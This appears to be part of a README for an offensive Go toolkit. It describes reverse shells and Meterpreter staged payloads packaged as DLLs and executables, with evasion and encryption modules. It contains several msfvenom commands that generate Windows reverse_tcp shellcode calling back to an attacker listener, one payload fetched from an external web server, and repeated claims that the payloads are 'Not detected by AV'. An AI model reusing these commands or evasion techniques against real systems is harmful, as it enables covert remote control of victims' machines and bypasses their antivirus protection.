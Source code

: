 - Simple Golang connection **(UPDATE: Not detected by AV as of 19/03/2022)**

![](https://i.imgur.com/fySYfUp.png)

### Simple Go Reverse Shell in a dll
- Simple Golang connection **(UPDATE: Not detected by AV as of 19/03/2022)**

![](https://i.imgur.com/N9LiWuo.png)


### CreateThread

#### Dynamic link library (DLL)

- Meterpreter Staged Payload with Encryption Module implemented. **(UPDATE: Not detected by AV as of 19/03/2022)**
```
msfvenom -p windows/x64/meterpreter/reverse_tcp LHOST=192.168.0.21 -o /opt/Offensive-Golang/payload.txt -b "\x00" EXITFUNC=thread LPORT=443 -f c --smallest
```
![](https://i.imgur.com/yfb4fMw.png)

>NOTE: Some msf commands trigger the AV

#### Portable Executable (PE)

- Meterpreter Staged Payload with Evasion and Encryption Module implemented. **(UPDATE: Detected by AV as of 19/03/2022)**
```
msfvenom -p windows/x64/meterpreter/reverse_tcp LHOST=192.168.0.21 -o /opt/Offensive-Golang/payload.txt -b "\x00" EXITFUNC=thread LPORT=443 -f c --smallest
```
- Reverse Shell Staged Payload with Evasion and Encryption Module implemented.**(UPDATE: Not detected by AV as of 19/03/2022)**

```
msfvenom -p windows/x64/shell/reverse_tcp LHOST=192.168.0.21 -o /opt/Offensive-Golang/payload2.txt -b "\x00" EXITFUNC=thread LPORT=443 -f c --smallest
```
![](https://i.imgur.com/HZWJnbV.png)

### RemoteThread

#### Dynamic link library (DLL)

- Reverse Shell Staged Payload downladed from external web server with Evasion and Encryption Module implemented. **(UPDATE: Not detected by AV as of 19/03/2022)**
```
msfvenom -p windows/x64/shell/reverse_tcp LHOST=192.168.0.21 -o /opt/Offensive-Golang/payload2.txt -b "\x00" EXITFUNC=thread LPORT=443 -f c --smallest
```
![](https://i.imgur.com/3JfL6Nv.png)
